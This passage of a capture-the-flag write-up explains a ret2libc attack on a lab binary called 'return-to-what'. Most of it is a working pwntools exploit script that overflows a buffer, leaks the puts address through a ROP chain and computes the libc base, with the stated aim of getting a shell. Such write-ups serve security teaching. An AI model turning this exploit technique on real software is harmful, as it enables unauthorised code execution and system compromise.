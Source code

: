 Now we know what the libc is, we can easily calculate the libc base address. What this is necessary ? With this information we can calculate the offset of system function and the string "/bin/sh". That all information we need to construct a `rop chain` that will gave us a nice shell. 

```python
#!/usr/bin/env python3
from pwn import *

def main():

    # log level
    context.terminal = ["tmux", "splitw", "-v"]
    context.log_level = 'DEBUG'

    # setup process in pwntools
    context.arch = "amd64"
    elf=ELF("./return-to-what")
    p=elf.process()

    #p=remote("192.168.64.131",1337)


    # The buffer looks like this to create a rop that will 
    # leak address of put.
    # padding + pop_rdi + puts_got + puts_plt + main_plt
    
    # trigger buffer overflow
    offset = 56 
    padding = b"A" * offset


    # create rop chain
     
    # 0x000000000040122b : pop rdi ; ret
    pop_rdi = p64(0x000000000040122b)
    puts_got = p64(elf.got["puts"])
    puts_plt = p64(elf.plt["puts"])
    main_plt = p64(elf.symbols["main"])

    rop = pop_rdi + puts_got + puts_plt + main_plt
    
    # create buffer
    buffer = [
            padding,
            rop
            ]

    buffer = b"".join(buffer)
    # start process
    print(p.recvuntil("\n"))
    print(p.recvuntil("\n"))

    # send the buffer
    p.sendline(buffer)

    # print address of put in libc
    puts_address=u64(p.recvuntil("\n").strip().ljust(8,b"\x00"))
    info(f"Puts address: {hex(puts_address)}")
   
    # calculate libc base address
    libc=ELF("./libc6_2.27-3ubuntu1.3_amd64.so")
    libc.address = puts_address - libc.symbols["puts"]
    info(f"libc base address: {hex(libc.address)}")

```